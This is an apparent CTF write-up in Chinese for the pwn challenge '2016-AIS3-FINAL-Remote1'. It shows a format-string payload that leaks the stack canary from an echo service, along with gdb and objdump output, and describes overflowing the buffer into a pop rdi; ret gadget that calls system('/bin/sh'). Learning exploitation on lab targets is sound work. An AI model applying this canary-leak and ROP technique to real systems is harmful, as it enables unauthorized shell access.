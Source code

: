 title: '2016-AIS3-FINAL-Remote1'

tags:
    - format String
    - GOT hijacking
categories:
    - write-ups

date: 2016-08-28 20:33:00
---
人生第一次比賽解題，來記錄一下

這題應該要更快解決的Orz，一開始走向比較麻煩的方向，直到**@Brainsp8210** First Blood<(\_ \_)>

<!-- more -->

拿到題目就先`./pwn1`執行看看，看到了echo service，直覺是想到**Format String**，於是送個`%lx %lx %lx %lx`，確認是**Format String**，但是一開始想直接去**GOT Hijack**，但是最後一個byte一直失敗QQ，不夠熟悉，該多練練，後來看到同學First Blood，於是轉戰別的方向。

`$ objdump -d pwn1 |less`

看到了`0000000000400620 <__stack_chk_fail@plt>:`應該是可以對他進行**Stack Overflow**於是送了一坨AAAAA給他，`quit`後跳出

`*** stack smashing detected ***: ./pwn1 terminated
[1]    1249 segmentation fault  ./pwn1`

因為**Stack Canary**會被放在**Stack**上，於是利用**Format String**洩漏**Stack**上的值，先送一段payload

**Payload:**

`AAAAAAAA %lx %lx %lx %lx %lx %lx %lx %lx`

**Output:**

`AAAAAAAA 40095f 0 71 7f0cb954e700 1e 23 29b9356620 4141414141414141`

確認了如果要dump出Buffer的第一格需要`%8$lx`，用[Qira][qira]或是**gdb**追一下程式，加上`objdump`

	40083e:       48 8b 4d f8             mov    rcx,QWORD PTR [rbp-0x8]
	400842:       64 48 33 0c 25 28 00    xor    rcx,QWORD PTR fs:0x28
	400849:       00 00
	40084b:       74 05                   je     400852 <echo+0xb0>
	40084d:       e8 ce fd ff ff          call   400620 <__stack_chk_fail@plt>

**Stack Frame**

	(gdb) x/gx $rbp
	0x7fffffffea00: 0x00007fffffffea10
	
	0x7fffffffe9e0: 0x4141414141414141
	0x7fffffffe9e8: 0x00007ffff7a9000a
	0x7fffffffe9f0: 0x0000000000000000
	0x7fffffffe9f8: 0x0a2281f1d38aaf00
	0x7fffffffea00: 0x00007fffffffea10
	0x7fffffffea08: 0x000000000040088a
	0x7fffffffea10: 0x00000000004008a0
	0x7fffffffea18: 0x00007ffff7a58730
	
由**Stack Frame**我們知道**Stack Canary**可用`%11$lx`dump出來，找到**Canary**的值後，等等**Overflow**就可以蓋上同樣的值，在結束**echo**時就不會呼叫`__stack_chk_fail`，繞過**Stack Guard**！！

在`ret`時`rsp`所在的位置覆蓋成`pop rdi ; ret`的gadget，gadget可利用`ROPgadget`去找，讓`rdi`的值為指向`/bin/sh`的字串位置，接著`call system`，即可開啟`Shell`。

[qira]: https://github.com/BinaryAnalysisPlatform/qira


<!-- more -->
